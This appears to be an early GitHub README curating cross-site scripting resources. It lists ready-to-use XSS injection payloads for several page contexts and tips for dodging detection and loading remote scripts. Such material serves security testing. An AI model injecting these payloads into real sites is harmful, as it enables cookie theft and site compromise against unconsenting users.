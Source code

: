 # AwesomeXSS
Awesome XSS stuff.
Put this repo on watch. I will be updating it regularly.

### Awesome Books
- [XSS Cheat Sheet By Brute Logic](http://google.com)

### Awesome Websites
- [brutelogic.com.br](http://brutelogic.com.br)
- [respectxss.blogspot.in](https://respectxss.blogspot.in/)

### Awesome People
- [Rodolfo Assis](https://twitter.com/brutelogic)
- [Ashar Javed](https://twitter.com/soaj1664ashar)
- [Somdev Sangwan](https://twitter.com/s0md3v) I own this repo, I can write whatever the fuck I want :v

### Awesome Reads
- [XSS in Sarahah](http://www.shawarkhan.com/2017/08/sarahah-xss-exploitation-tool.html)

### Awesome Presentations
- [How I met your girlfriend](https://www.youtube.com/watch?v=fWk_rMQiDGc)
- [How to Find 1,352 Wordpress XSS Plugin Vulnerabilities in one hour](https://www.youtube.com/watch?v=9ADubsByGos)
- [Blind XSS](https://www.youtube.com/watch?v=OT0fJEtz7aE)
- [Copy Pest](https://www.slideshare.net/x00mario/copypest)

### Awesome Context Breaking

#### Simple Context
```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Attribute Context
```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
```
#### JavaScript Context
```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Awesome Payloads
Come back later

### Awesome Exploits
Come back later

### Awesome Tags & Event Handlers
Come back later

### Awesome Methodology
Come back later

### Awesome Tools
- [XSStrike](http://xsstrike.tk/)
- [KNOXSS](http://knoxss.me/)

### Awesome Tips & Tricks
- http:// can be shortened to //
- **document.cookie** can be shortened to **cookie**. It applies to other DOM objects as well.
- alert and other function don't need a value, so stop doing **alert(1)** and start doing **alert()**
- I have found that **confirm** is the least detected pop-up function so stop using alert.
- Quotes around attribute value aren't neccessary. You can use **&lt;script src=//14.rs&gt;** instead of **&lt;script src="//14.rs"glt;**
- The shortest independent payload is **&lt;embed src=//14.rs&gt;** (19 chars)

## Credits and all that
All the payloads are crafted by me unless specified.
Thanks to my big brother [Rodolfo Assis](https://twitter.com/brutelogic) whose writings inspired me to become an XSSLord.
